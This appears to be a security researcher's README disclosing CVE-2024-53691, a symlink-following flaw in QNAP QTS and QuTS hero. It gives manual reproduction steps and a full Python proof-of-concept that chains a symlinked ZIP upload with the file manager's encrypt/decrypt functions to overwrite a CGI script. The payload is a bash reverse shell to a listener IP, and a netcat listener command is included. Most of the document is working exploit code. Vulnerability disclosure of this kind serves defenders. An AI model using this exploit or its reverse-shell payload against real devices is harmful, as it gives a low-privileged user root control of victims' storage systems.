


# CVE-2024-53691
- https://www.qnap.com/en/security-advisory/qsa-24-28
- https://www.cve.org/CVERecord?id=CVE-2024-53691
- CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N (8.7)

"If exploited, the link following vulnerability could allow remote attackers who have gained user access to traverse the file system to unintended locations."

__Date of Discovery:__ 22 April 2024  
__Date of Fix:__ 7 September 2024  
__Affected Version(s):__ QTS 5.1.x, QuTS hero h5.1.x  
__Fixed Version(s):__ QTS 5.2.0.2802 build 20240620 and later, QuTS hero h5.2.0.2802 build 20240620 and later  
__Access Permissions:__ Regular user with file upload permission  

__Summary__:__  
It is possible to upload a symlink trough a ZIP file and abuse the encrypt/decrypt function to gain an arbitrary file write primitive which can be turned into remote code execution.  
An attacker with privileges of a regular user can exploit the vulnerability to gain code execution as root user and completely compromise the system.  

# Steps to Reproduce

1. Create a symbolic link and put it into a ZIP file. The symlink target specifies which file will be overwritten. To achieve remote code execution */home/httpd/cgi-bin/restore_config.cgi* was choosen.

    ``` bash
    ln -s /home/httpd/cgi-bin/restore_config.cgi link.txt
    zip --symlink pwn.zip link.txt
    ```

2. Write the shell commands that will be executed into *payload.txt*. A standard bash reverse shell is used in the example. Don't forget to adjust the listener IP and port.

    ``` bash
    #!/bin/sh
    bash -c "bash -i >& /dev/tcp/192.168.178.142/4444 0>&1" &
    . /home/httpd/cgi-bin/json_output
    output_http_header
    output_header
    output_save_restore
    output_tail
    ```

2. Login as a low-privileged user.
3. Upload the ZIP file trough the web interface.
4. Extract the ZIP file by right-clicking and selecting *Extract to /pwn/*.
5. Upload the *payload.txt* to */pwn/payload.txt*.

    

6. Encrypt the *payload.txt* by right-clicking, selecting *Encrypt* and setting *Do you want to encrypt and replace the original file?* to *Yes*.
7. Rename the file *payload.txt.qenc* to *link.txt.qenc* by right-clicking and selecting *Rename*.
8. Decrypt the file *link.txt.qenc* by right-clicking, selecting *Decrypt* and setting *Mode* to *Overwrite*.
9. Start your reverse shell listener.

    ``` bash
    nc -nvlp 4444
    ```

10. Open the */cgi-bin/restore_config.cgi* endpoint in your browser to trigger execution of the reverse shell.

    

 # Proof of Concept

The following Python script can be used to exploit the vulnerability.


``` python
#!/usr/bin/env python3
from requests import Session
import base64
import os
import re
import time
import urllib3

# adjust following variables
ENDPOINT = 'https://192.168.178.156'
USERNAME = 'victim'
PASSWORD = 'Victim123!'
LISTENER_IP = '192.168.178.142'
LISTENER_PORT = 4444
PAYLOAD = f"""#!/bin/sh
bash -c "bash -i >& /dev/tcp/{LISTENER_IP}/{LISTENER_PORT} 0>&1" &
. /home/httpd/cgi-bin/json_output
output_http_header
output_header
output_save_restore
output_tail
"""
#DEBUG_PROXY = 'http://localhost:8080'

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def main() -> None:
    session = Session()
    #session.proxies.update(http=DEBUG_PROXY, https=DEBUG_PROXY)
    session.verify = False

    print('creating zip file')
    os.system("""
        rm -f link.txt pwn.zip payload.txt
        ln -s /home/httpd/cgi-bin/restore_config.cgi link.txt
        zip --symlink pwn.zip link.txt
    """)

    print('loggin in')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/authLogin.cgi',
        headers={'Content-type': 'application/x-www-form-urlencoded'},
        data={'user': USERNAME, 'serviceKey': '1', 'client_app': 'Web Desktop', 'dont_verify_2sv_again': '0', 'pwd': base64.b64encode(PASSWORD.encode('ascii')).decode('ascii'), 'client_id': '2b491dc6-6542-480d-a3a2-bbe3b433b764'},
    )
    assert response.status_code == 200
    match = re.search(r'<authSid><!\[CDATA\[(.*?)\]\]></authSid>', response.text)
    assert match
    sid = match.group(1)

    print('uploading zip file')
    with open('pwn.zip', 'rb') as file:
        upload_file(session, sid, 'pwn.zip', file.read())

    print('unpacking zip file')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=extract&sid={sid}',
        headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
        data={'mode': 'extract_all', 'pwd': '', 'path_mode': 'full', 'extract_file': '/home/pwn.zip', 'code_page': 'UTF-8', 'overwrite': '1', 'dest_path': '/home/pwn'},
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1


    time.sleep(5)

    print('uploading payload file')
    upload_file(session, sid, 'pwn/payload.txt', str.encode(PAYLOAD))

    print('encrypting payload file')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=cipher&sid={sid}&subfunc=encrypt',
        headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
        data={'passwd': 'test', 'dest_path': '/home', 'source_total': '1', 'source_path': '/home', 'source_file': 'pwn/payload.txt', 'mode': '0', 'keep': '1'},
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1

    print('renaming payload file')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=rename&sid={sid}',
        headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
        data={'path': '/home/pwn', 'source_name': 'payload.txt.qenc', 'dest_name': 'link.txt.qenc'},
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] in (1, 2)

    print('decrypting payload file')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=cipher&sid={sid}&subfunc=decrypt',
        headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
        data={'passwd': 'test', 'dest_path': '/home/pwn', 'source_total': '1', 'source_path': '/home/pwn', 'source_file': 'link.txt.qenc', 'mode': '0'},
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1

    time.sleep(1)
    print('executing payload') 
    session.get(f'{ENDPOINT}/cgi-bin/restore_config.cgi')


def upload_file(session: Session, sid: str, filename: str, content: bytes) -> None:
    # get upload id
    response = session.post(f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi', headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'}, data={'upload_root_dir': '/home', 'func': 'start_chunked_upload', 'sid': sid})
    assert response.status_code == 200
    data = response.json()
    upload_id = data['upload_id']
    assert upload_id

    # upload file
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=chunked_upload&sid={sid}&dest_path=%2Fhome&mode=1&dup=Copy&upload_root_dir=%2Fhome&upload_id={upload_id}&offset=0&filesize={len(content)}&upload_name={filename}&settime=1&mtime=1713395222&overwrite=1&multipart=0',
        files=(
            ('fileName', (None, filename.encode('ascii'))),
            ('file', ('blob', content, 'application/octet-stream')),
        ),
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1


if __name__ == '__main__':
    main()
```
